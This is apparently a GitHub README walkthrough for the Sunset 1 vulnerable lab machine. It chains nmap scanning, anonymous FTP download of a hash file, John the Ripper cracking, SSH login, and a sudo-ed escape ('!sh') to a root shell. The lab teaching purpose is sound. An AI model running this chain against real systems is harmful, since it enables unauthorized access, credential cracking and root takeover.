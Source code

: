 # 🌇 Sunset 1 - Pentesting Walkthrough

This walkthrough documents the basic penetration testing steps performed on the **Sunset 1** vulnerable machine.

We simulate a real-world attack by exploiting FTP, cracking password hashes, and gaining access via SSH.

---

## 🛠️ Lab Setup

- **Attacker Machine:** Kali Linux (or Parrot OS)
- **Target Machine:** Sunset 1 (downloaded and running in VirtualBox/VMware)
- **Network Mode:** Both machines are connected to the **same Host-Only / Bridged Network**.

---

## 1️⃣ Network Discovery

**Goal:** Find the target machine's IP address.

### ✅ Tool: `netdiscover`

```bash
sudo netdiscover -r 192.168.1.0/24
```

- This scans the subnet for active IP addresses.
- Look for a new device on the network (often labeled as unknown or with no hostname).

---

## 2️⃣ Port Scanning

**Goal:** Identify open ports and running services.

### ✅ Tool: `nmap`

```bash
sudo nmap -A -T4 <TARGET_IP>
```

- `-A`: Enables OS detection, version detection, script scanning.
- `-T4`: Speeds up the scan.
- Look for FTP (port 21), SSH (22), web ports (80, 443), etc.

---

## 3️⃣ FTP Enumeration & Access

**Goal:** Connect to FTP and check if anonymous login is enabled.

### ✅ Tool: `ftp`

```bash
ftp <TARGET_IP>
```

If prompted for a username, try:

```
Name: anonymous
Password: [press Enter]
```

- If access is granted, list files with `ls`.
- Look for interesting files (e.g., `hashes.txt`, `users.txt`, etc.).

Download files using:

```bash
get hashes.txt
```

---

## 4️⃣ Crack Hashes

**Goal:** Use John the Ripper to crack password hashes from downloaded files.

### ✅ Tool: `john`

```bash
john hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

- This attempts to crack passwords using the **rockyou.txt** wordlist.
- Once cracked, use:

```bash
john --show hashes.txt
```

To display the cracked usernames and passwords.

---

## 5️⃣ SSH Access

**Goal:** Use the cracked credentials to log into the system.

### ✅ Tool: `ssh`

```bash
ssh <username>@<TARGET_IP>
```

- Enter the cracked password when prompted.
- If successful, you now have shell access to the target machine.

---

## 6️⃣ Privilege Escalation

**Goal:** Escalate privileges from user to root.

### ✅ Step 1: Check for sudo permissions

```bash
sudo -l
```

If the output shows:

```
User sunset may run the following commands on sunset:
    (root) NOPASSWD: /usr/bin/ed
```

This means the user can execute `ed` as root without a password.

---

### ✅ Step 2: Exploit `ed` to spawn root shell

Run the following:

```bash
sudo ed
```

Inside the `ed` prompt, type:

```
!sh
```

This will spawn a root shell (`#`), giving full administrative access.

You can confirm with:

```bash
whoami
```

---

## ✅ Summary

| Step | Description | Tool |
|------|-------------|------|
| 1 | Discover target IP | `netdiscover` |
| 2 | Scan for open ports | `nmap` |
| 3 | Access FTP and download hashes | `ftp` |
| 4 | Crack password hashes | `john` |
| 5 | Log into system with SSH | `ssh` |
| 6 | Privilege escalation using `ed` | `sudo`, `ed` |

---